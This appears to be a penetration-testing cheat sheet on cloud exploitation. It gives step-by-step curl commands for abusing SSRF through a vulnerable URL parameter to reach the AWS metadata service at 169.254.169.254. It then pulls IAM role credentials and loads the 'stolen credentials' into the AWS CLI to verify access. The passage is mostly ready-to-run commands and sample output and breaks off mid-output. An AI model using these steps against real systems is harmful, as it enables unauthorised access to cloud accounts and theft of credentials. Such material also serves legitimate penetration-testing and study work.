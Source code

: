 # Cloud Exploitation - Quick Wins

---

## PRIORITY 1: SSRF TO METADATA SERVICE

### AWS Metadata Exploitation

#### Step 1: Confirm SSRF to Metadata

```bash
# Test via vulnerable parameter
curl "http://TARGET/proxy?url=http://169.254.169.254/latest/meta-data/"

# Common vulnerable endpoints:
# - /proxy?url=
# - /fetch?url=
# - /download?file=
# - /redirect?target=
# - /image?src=
```

#### Step 2: Extract IAM Credentials

```bash
# Get role name
curl "http://TARGET/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Example output: WebAppRole

# Get credentials for that role
curl "http://TARGET/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/WebAppRole"

# Output (save this):
{
  "Code": "Success",
  "LastUpdated": "2024-10-24T10:30:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "IQoJb3JpZ2luX2VjEMz....[very long token]",
  "Expiration": "2024-10-24T16:30:00Z"
}
```

#### Step 3: Use Stolen Credentials

```bash
# Configure AWS CLI
export AWS_ACCESS_KEY_ID="AKIAIOSFODNN7EXAMPLE"
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEMz...."
export AWS_DEFAULT_REGION="us-east-1"

# or through CLI as shown in 01-RECONNAISSANCE/cloud/commands.md

# Verify access
aws sts get-caller-identity

# Example output:
{
    "UserId": "AROAI...",
    "Account": "123456789012",
```
